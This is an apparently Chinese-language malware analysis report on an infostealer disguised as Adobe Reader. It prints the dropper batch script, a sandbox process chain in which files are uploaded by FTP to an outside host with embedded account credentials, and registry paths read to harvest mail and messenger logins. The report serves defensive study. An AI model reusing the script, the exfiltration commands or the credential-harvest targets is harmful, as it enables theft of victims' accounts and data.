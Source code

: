 # 病毒分析报告

## 大致信息

- 文件名：
  - a2eebbf189540a495ea1350d2fc32196d63bf150bd6b980350c5ac245f92aaf4
- 文件大小：
  - 3,455,109 bytes（3.29MB）
- 哈希值
  - MD5：c6 e1 1c 72 5a 22 28 17 10 68 d9 7c ba 3d 8e 7d


## 行为记录

在将该文件放到火绒剑之后，查看任务管理器，发现一个名为Areada.exe 的 程序正在运行。然后右键查看该文件所在位置，发现如下文件夹。

![](./img/location.png)

等程序运行一段时间后，去查看系统的监控日志。

改程序启动后的大致运行流程如下：

![](./img/process.png)

wscript程序先在cmd中去打开adob01.bat这个脚本

![](./img/1.png)

该脚本内容如下：

![](./img/2.png)

```bat
@echo off
@cls

@md "%APPDATA%\Adobe\Adobe INC\AadobeRead\"

@xcopy /y /h /e /r /k /c *.* "%APPDATA%\Adobe\Adobe Inc\AadobeRead\"



@start "kissd" /normal /b /d "%APPDATA%\Adobe\Adobe Inc\AadobeRead\" "%APPDATA%\Adobe\Adobe Inc\AadobeRead\adob02.bat"

@cls
```

在该脚本中启动了adobe02.bat脚本并且使用xcopy进行文件的复制

### 启动大量进程

这是一条执行链,执行的相关命令如下。

```
Spawned process "RFQRequestForQuotation.exe" (Show Process)
Spawned process "wscript.exe" with commandline ""%APPDATA%\Local\Adobe\Pdf\low\adobel.vbs"" (Show Process)
Spawned process "cmd.exe" with commandline "/c ""%APPDATA%\Local\Adobe\Pdf\low\adob01.bat" /quiet /norestart"" (Show Process)
Spawned process "xcopy.exe" with commandline "xcopy /y /h /e /r /k /c *.* "%APPDATA%\Adobe\Adobe Inc\AadobeRead\"" (Show Process)
Spawned process "cmd.exe" with commandline "/K "%APPDATA%\Adobe\Adobe Inc\AadobeRead\adob02.bat"" (Show Process)
Spawned process "attrib.exe" with commandline "attrib +r +a +s +h "%APPDATA%\Local\Adobe\Pdf\low"" (Show Process)
Spawned process "ipconfig.exe" with commandline "ipconfig /all" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf2.exe" with commandline "-f "444.444"" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.091" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.091" (Show Process)
Spawned process "Areada.exe" with commandline "Areada 5359" (Show Process)
Spawned process "attrib.exe" with commandline "attrib +r +a +s +h "%APPDATA%\Local\Adobe\Pdf\low"" (Show Process)
Spawned process "ipconfig.exe" with commandline "ipconfig /all" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf2.exe" with commandline "-f "444.444"" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.091" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.091" (Show Process)
Spawned process "Areada.exe" with commandline "Areada 5359" (Show Process)
Spawned process "attrib.exe" with commandline "attrib +r +a +s +h "%APPDATA%\Local\Adobe\Pdf\low"" (Show Process)
Spawned process "ipconfig.exe" with commandline "ipconfig /all" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf2.exe" with commandline "-f "444.444"" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.091" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.091" (Show Process)
Spawned process "Areada.exe" with commandline "Areada 5359" (Show Process)
Spawned process "attrib.exe" with commandline "attrib +r +a +s +h "%APPDATA%\Local\Adobe\Pdf\low"" (Show Process)
Spawned process "ipconfig.exe" with commandline "ipconfig /all" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf.exe" with commandline "-f "555.555"" (Show Process)
Spawned process "adobepdf2.exe" with commandline "-f "444.444"" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u humshi8 -p bikmasa2019 -m -R ftp.freehostia.com /LOG0016 *.091" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.090" (Show Process)
Spawned process "ancp.exe" with commandline "ancp -u donmak10 -p kkk9901981 -m -R ftp.freehostia.com /LOG009 *.091" (Show Process)
Spawned process "Areada.exe" with commandline "Areada 5359" (Show Process)
```

adobepdf2.exe 执行的命令

![](./img/3.png)

### 个人信息的获取

- 扫描有助于识别目标细节的文件
- 查询敏感的 IE 安全设置
- 读取活动计算机名称
- 读取加密机 GUID
- 读取系统/视频 BIOS 版本

```
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\GOOGLE\GOOGLE TALK\ACCOUNTS")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\INCREDIMAIL\IDENTITIES")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS LIVE MAIL")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\IDENTITYCRL\DYNAMIC SALT")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINDOWS MESSAGING SUBSYSTEM\PROFILES\OUTLOOK\9375CFF0413111D3B88A00104B2A6676")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINDOWS MESSAGING SUBSYSTEM\PROFILES\OUTLOOK\9375CFF0413111D3B88A00104B2A6676\00000001")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINDOWS MESSAGING SUBSYSTEM\PROFILES\OUTLOOK\9375CFF0413111D3B88A00104B2A6676\00000002")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINDOWS MESSAGING SUBSYSTEM\PROFILES\OUTLOOK\9375CFF0413111D3B88A00104B2A6676\00000003")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\OFFICE\OUTLOOK\OMI ACCOUNT MANAGER\ACCOUNTS")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\INTERNET ACCOUNT MANAGER\ACCOUNTS")
```

获取即时通讯的相关注册表项
```
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\GOOGLE\GOOGLE TALK\ACCOUNTS")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\PALTALK")
"adobepdf2.exe" (Path: "HKCU\SOFTWARE\MICROSOFT\WINDOWS LIVE MAIL")
```


### 网络行为相关

- 与198.23.57.8该ip地址相关的行为
![](./img/4.png)


该程序的日志： [virus's log](./virus.log)

## 相关文件

- 可执行程序

  - exe
    - wscript.exe
    - **cmd.exe**
    - xcopy.exe
    - attrib.exe
    - ipconfig.exe
    - **adobepdf.exe**
    - **adobepdf2.exe**
    - ancp.exe
    - Areada.exe
  - 脚本
    - adob01.bat
    - adob02.bat

## 参考资料
- [8f654cee2a1b5b907102fb23bf894bc42d8736a30caa08a7618f17bcad8f6e8e.exe](https://www.hybrid-analysis.com/sample/8f654cee2a1b5b907102fb23bf894bc42d8736a30caa08a7618f17bcad8f6e8e/5c73964b02883864825b429a)
- [ RFQ Request For Quotation.exe](https://any.run/report/d94ace8c997d1ec1f05f05d7ea41882cd0255f078c96c175b61cebdc66e613be/7d29ca1b-5316-483c-938a-8208552a32ec)

